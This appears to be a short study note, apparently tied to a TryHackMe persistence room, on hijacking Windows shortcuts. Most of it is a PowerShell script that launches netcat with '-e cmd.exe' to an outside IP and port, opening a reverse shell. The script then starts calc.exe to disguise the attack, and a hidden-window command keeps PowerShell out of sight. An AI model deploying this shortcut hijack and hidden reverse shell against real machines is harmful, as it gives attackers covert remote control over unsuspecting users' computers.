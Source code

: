 # Exploiting Windows Shortcuts
Shortcuts can also be modified to run a script instead. A simple PowerShell script that fires off one executable and then another might look like:

```powershell
# Create a reverse shell (note that netcat is something that
# the attacker need to provide themselves!)
#
Start-Process -NoNewWindow “C:\Windows\System32\nc.exe” `
	“-e cmd.exe 1.2.3.4 1337”

# Fire off the application the user is expecting
#
C:\Windows\System32\calc.exe
```

To ensure that the script itself doesn’t generate a PowerShell window, it will need to be called like so:

```powershell
powershell.exe -WindowStyle hidden C:\Windows\System32\calc.ps1
```

## Additional Resources
* [TryHackMe: Windows Local Persistence](https://tryhackme.com/room/windowslocalpersistence) 
* [Using “netcat”](./Using%20%22netcat%22.md)
